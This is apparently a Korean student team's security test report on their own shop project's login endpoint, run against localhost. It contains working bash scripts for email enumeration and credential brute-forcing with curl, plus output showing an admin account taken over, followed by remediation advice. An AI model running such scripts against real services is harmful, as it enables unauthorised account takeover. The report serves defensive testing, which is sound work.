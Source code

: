 # Brute Force 공격 실험 보고서 (Linux Shell Script 기반) - 안윤기
> - 3차 팀 프로젝트 : HALO SHOP
> - 결론 : 
>   1. "무작위 대입 공격" 막는 로직 없음
>    2. 단순 쉘 스크립트가 아닌 c언어 기반 히드라툴로 공격했을 경우 계정탈취 뿐만 아니라 dos공격으로 인하여 서버 다운 위험 있음
>       - admin 계정 로그인 방식은 argon2+세션방식이기 때문에 더욱 더 위험함

##  실험 목적

* 프로젝트의 로그인 보안 취약성 확인
* 리눅스 bash 스크립트를 이용한 무차별 대입(Brute Force) 공격 수행

---

##  환경 구성

* **OS**: Ubuntu 22.04 LTS (WSL 환경)
* **타겟 서버**: 윈도우에서 실행한 React 프론트 + Spring Boot 백엔드 (포트 8080)
* **관리자 로그인 엔드포인트**: `POST /auth/login`
* **응답 메시지**: 이메일 존재 여부/비밀번호 불일치 명확히 구분됨

---

##  준비 1: 사용자 패스워드 리스트 파일 생성

```bash
nano /home/ubuntu/userpass.txt
```

내용:

```
admin:admin
test@example.com:1234
admin1@gmail.com:1234
admin0@gmail.com:1234
user1@gmail.com:1234
```

파일 권한 확인:

```bash
ls -l /home/ubuntu/userpass.txt
```

---

##  준비 2: 이메일 존재 여부 체크 스크립트 작성

```bash
nano check_email.sh
```

```bash
#!/bin/bash

echo "[*] 이메일 존재 여부 확인 시작..."
while IFS= read -r email; do
  echo "[*] 이메일 확인 중: $email"
  response=$(curl -s -X POST http://localhost:8080/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"email\": \"$email\", \"password\": \"wrongpass\"}")

  echo "[응답]: $(echo $response | jq -r .message)"
  if [[ "$response" == *"비밀번호가 일치하지 않습니다"* ]]; then
    echo " 존재하는 이메일! → $email"
  fi
done < email_list.txt
```

이메일 리스트 작성:

```bash
nano email_list.txt
```

예시:

```
admin@admin.com
user1@example.com
test@example.com
halo123@shop.com
admin1@gmail.com
admin0@gmail.com
user1@gmail.com
abc@gmail.com
```

권한 부여 및 실행:

```bash
chmod +x check_email.sh
./check_email.sh
```

---

##  준비 3: 브루트포스 공격 스크립트 시도

```bash
nano brute.sh
```

```bash
#!/bin/bash

FILE="/home/ubuntu/userpass.txt"
echo "[*] Brute force 시작..."

while IFS=: read -r email password; do
  echo "[*] 시도 중: $email / $password"
  response=$(curl -s -X POST http://localhost:8080/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"email\": \"$email\", \"password\": \"$password\"}")

  echo "[응답 본문]: $(echo $response | jq -r .message)"

  if [[ "$response" == *"로그인 성공"* ]]; then
    echo " 성공!!! → $email / $password"
    break
  elif [[ "$response" == *"가입되지 않은 이메일"* ]]; then
    echo "❌ 이메일 없음: $email"
  else
    echo "❌ 실패: $email / $password"
  fi
done < "$FILE"
```

권한 부여 및 실행:

```bash
chmod +x brute.sh
./brute.sh
```

---

##  실행 결과

```
[*] Brute force 시작...
[*] 시도 중: admin / admin
[응답 본문]: 가입되지 않은 이메일입니다.
❌ 이메일 없음: admin

[*] 시도 중: test@example.com / 1234
[응답 본문]: 가입되지 않은 이메일입니다.
❌ 이메일 없음: test@example.com

[*] 시도 중: admin1@gmail.com / 1234
[응답 본문]: 관리자 로그인 성공
 성공!!! → admin1@gmail.com / 1234
```
##### *자동탐지 미들웨어로 인하여 로그에는 찍혀있음

---

## 취약점 분석 요약

| 항목         | 상태 | 보안 위험           |
| ---------- | -- | --------------- |
| 응답 메시지 차별화 | 있음 | 사용자 존재 여부 식별 가능 |
| 로그인 제한 횟수  | 없음 | 무한 대입 가능        |
| CAPTCHA    | 없음 | 자동화 공격 가능       |
| 관리자 계정 2FA | 없음 | 위험              |

---

## 권고 사항

* 로그인 시도 제한 도입 (IP 또는 이메일 기준)
* 응답 메시지 통일 → "아이디 또는 비밀번호가 틀렸습니다"
* CAPTCHA 도입
* 관리자 계정 → OTP/2FA(인증) 필수화
* 공격 탐지 로깅 및 보안 로그 수집 자동화

---

*본 실험은 보안 점검 및 테스트 목적으로만 수행되었으며, 실제 공격 행위로 사용되어서는 안 됩니다. 참고하세요*
